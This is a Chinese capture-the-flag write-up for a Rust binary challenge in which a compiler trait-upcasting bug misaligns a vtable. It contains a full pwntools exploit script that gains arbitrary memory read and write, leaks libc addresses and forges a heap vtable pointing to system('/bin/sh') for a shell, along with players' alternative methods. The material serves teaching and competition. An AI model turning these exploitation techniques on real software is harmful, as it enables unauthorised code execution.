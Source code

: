 # [Binary] 完美的代码

- 命题人：lrh2000
- 发现：400 分
- 解密：300 分

## 题目描述

<p>小E为某开源软件贡献代码十年之久，终于成为了该软件的核心开发者。可是，小E并不想为爱发电，他决定向该软件中注入后门，以便盗取神秘货币发大财。</p>
<p>过去了这么多年，小E后知后觉地发现这款软件的核心代码都已经用Rust重写了，想要同往常一样在C/C++代码中假装无意插入一个内存安全漏洞的好日子一去不复返。小E意识到通过常规手段悄悄插入一个足够隐秘的后门似乎并没有那么容易。于是，他编写了一段 <strong>完美的代码</strong>，这段代码顺利通过代码评审并合入到了主干。</p>
<p>可是，小E还是顺利完成了他的邪恶计划，问题出在哪里呢？完美的代码意味着 <strong>完美的程序</strong> 吗？</p>
<p><strong>说明：</strong></p>
<ul>
<li>让程序发生段错误可以获得 Flag 1</li>
<li>拿到 shell 或执行命令 <code>cat ./flag2.txt</code> 可以获得 Flag 2</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>本题的技术原理可参考 <a target="_blank" rel="noopener noreferrer" href="https://github.com/rust-lang/rust/issues/131813">https://github.com/rust-lang/rust/issues/131813</a></li>
</ul>
<p>除此之外，还有如下两个和 Flag 直接相关的提示：</p>
<ul>
<li>Flag 1：如果不想看技术原理，或许可以直接手玩一下？</li>
<li>Flag 2：调试一下 Flag 1 的崩溃，或许可以想办法做到任意内存读写？在这之后，堆上的虚表指针是不是有一些神秘作用呢？</li>
</ul>
</div>

**[【附件：下载题目源码（binary-saferustplus.zip）】](attachment/binary-saferustplus.zip)**

**【终端交互：连接到题目】**

## 预期解法

这题的出题思路是之前正常开发的时候突然蹦出来个段错误，十分疑惑，最后调试了下发现竟然是 Rust 编译器的问题。~~感觉可以用来注入后门，~~ 那不如先出道题吧。

### Flag 1：发现

怎么发现哪里有问题呢？首先题面暗示问题不在源代码里，但在编译之后的二进制文件里。预期解法：
 - 这题是个菜单题，但内部并没有维护复杂状态，其实本质不同的输入也就只有十几种或者最多几十种，手动全部尝试一遍就能发现异常了（如果输入离谱一点基本就段错误了）。懒得手动尝试也可以写个程序自动尝试，或者直接 fuzzing 。
 - 如果注意力惊人，也可以根据源代码猜一下问题在哪，比如定义了一堆 trait 并用了 `trait_upcasting` ，那么可能这块有问题概率比较大，然后去逆向二进制中对应模块。这个确实比较难，实际好像也没有选手是这么做出来的。

### Flag 2：解密

分析一下 Flag 1 中的段错误，可以看出是虚表错位，也就是调用 `put` 实际调用的是 `put_unchecked`，那么也就可以任意写入了。

正好栈上有个 `is_admin` 的布尔值，把它置为真，就可以任意读写内存，也可以泄漏 libc 里的地址。

不过这题 `main` 函数不会返回，所以不太好覆盖栈上的返回地址，但是堆上的虚表可以随便改。所以只要构造一个假的虚表，把里面的函数指针填成 `system`，就可以拿到 shell 或者执行 `cat ./flag2.txt` 了。

[利用程序：](sol/exp.py)

```py
from pwn import *

p = remote('127.0.0.1', 8080)

_created_counter = 0

def create():
    global _created_counter
    _created_counter += 1

    # Create
    p.sendlineafter(b'Enter the choice:\n', b'1')
    if _created_counter == 1:
        # Local
        p.sendlineafter(b'Enter the choice:\n', b'3')
    else:
        # Boxed
        p.sendlineafter(b'Enter the choice:\n', b'1')
    # Size
    p.sendlineafter(b'Enter the size:\n', b'1024')
    # Read/write
    p.sendlineafter(b'Enter the choice:\n', b'3')

create()
create()

def write8(off, val, sl=0):
    # Write
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', str(sl).encode())
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Value
    p.sendlineafter(b'Enter the value:\n', str(val).encode())
    # Unwrap
    p.sendlineafter(b'Enter the choice:\n', b'1')

def read8(off):
    # Read
    p.sendlineafter(b'Enter the choice:\n', b'2')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', b'0')
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Unchecked
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Result
    p.recvuntil(b'Result: ')
    return int(p.recvline().decode().strip())

def write64(off, val):
    for i in range(0, 8):
        write8(off + i, (val >> i * 8) & 0xff)

def read64(off):
    res = 0
    for i in reversed(range(0, 8)):
        res = (res << 8) | read8(off + i)
    return res

# is_admin: 0x98(%rsp)
# local_data: 0xa8(%rsp)

write8(-16, 1)

# (gdb) x/20a $rsp
# 0x7ffe65eecac0:	0x5aeb2a9d9810 <_ZN3run4main17hf2eb20adc216d115E>	0x724b6fe6024a <__libc_start_call_main+122>
# 0x7ffe65eecad0:	0x7ffe65eecbc0	0x5aeb2a9db520 <main>
# 0x7ffe65eecae0:	0x12a9c3040	0x7ffe65eecbd8
# 0x7ffe65eecaf0:	0x7ffe65eecbd8	0x920e9a292183a1ec
# 0x7ffe65eecb00:	0x0	0x7ffe65eecbe8
# 0x7ffe65eecb10:	0x5aeb2aa1dd28	0x724b7007b020 <_rtld_global>
# 0x7ffe65eecb20:	0x6df251f4b421a1ec	0x769845e52585a1ec
# 0x7ffe65eecb30:	0x0	0x0
# 0x7ffe65eecb40:	0x0	0x7ffe65eecbd8
# 0x7ffe65eecb50:	0x7ffe65eecbd8	0x9bae95e730d0200
#
# (gdb) disp/i $pc
# 1: x/i $pc
# => 0x5aeb2a9dbe73 <_ZN3run6traits6CanPut13put_unchecked17hee53d1baa5fbab4bE+3>:	movzbl (%rcx,%rsi,1),%eax
# (gdb) p/a $rcx
# $3 = 0x7ffe65eec528
#
# (gdb) p __libc_system
# $4 = {int (const char *)} 0x724b6fe85490 <__libc_system>

in_libc = read64(0x7ffe65eecac8 - 0x7ffe65eec528)
system = in_libc + 0x724b6fe85490 - 0x724b6fe6024a

stack = read64(0x7ffe65eecaf0 - 0x7ffe65eec528)
base = stack + 0x7ffe65eec528 - 0x7ffe65eecbd8

vec = read64(-32)
data = read64(vec - base + 32)
vptr = read64(vec - base + 40)

write64(data - base, u64(b'/bin/sh\x00'))
write64(vec - base + 40, vec + 48 - 0x38)
write64(vec - base + 48, system)

write8(0, 0, 1)

p.interactive()
```

### 优秀选手解法

 - 下面的脚本可以秒出 Flag 1，参见清华大学选手 [Vursc 的 writeup](../../players_writeup/1273) （确实是“完美的解法”）：
> 完美的解法（出结果用不了一秒钟）：
> ```
> while
>     grep -ao '[0123]' /dev/urandom | tee in | ./run >/dev/null 2>err;
>     grep -q assert err;
> do :; done
> ```
 - 其实不利用 `is_admin` 也不调用 `system` 同样能拿 Flag 2，参见清华大学选手 [tony 的 writeup](../../players_writeup/700)：
> 而利用这点修改了别的`BoxedData`的data指针后，也就能任意位置读取了。
> [ .. ]
> 总之我采取了另一个方法，利用的是调用的虚函数的返回值是会打印出来的这一点，首先执行`open64(./flag2.txt, 0)`，返回值`fd`会被打印到命令行（其实不打印的话也大概率可以猜是3）。然后再调用`read(fd, buf, ...)`，当然，第三个参数是没法控制的，因为override的虚函数只有前两个参数，只好听天由命希望这个值足够大就行。事实上，确实work了，最后读取`buf`的内容就是flag2了。
